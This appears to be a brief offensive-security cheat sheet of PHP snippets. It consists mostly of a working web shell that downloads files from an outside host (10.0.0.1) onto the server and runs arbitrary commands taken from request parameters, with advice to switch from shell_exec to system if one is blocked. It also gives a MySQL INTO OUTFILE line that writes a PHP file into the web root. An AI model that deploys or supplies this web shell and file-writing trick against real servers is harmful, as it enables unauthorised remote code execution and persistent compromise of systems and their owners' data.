 ## PHP

### File upload and command execution
If `shell_exec` does not work, try `system`

```php
<?php if (isset($_REQUEST['fupload'])) {
	file_put_contents($_REQUEST['fupload'],
	file_get_contents('http://10.0.0.1/' . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
	echo '<pre>' . shell_exec($_REQUEST['fexec']) . '</pre>';
} ?>
```

### Echo IP Address
`<?php echo $_SERVER["REMOTE_ADDR"];`

### MySQL
`SELECT "<?phpinfo()" into OUTFILE "/var/www/html/infox.php"`
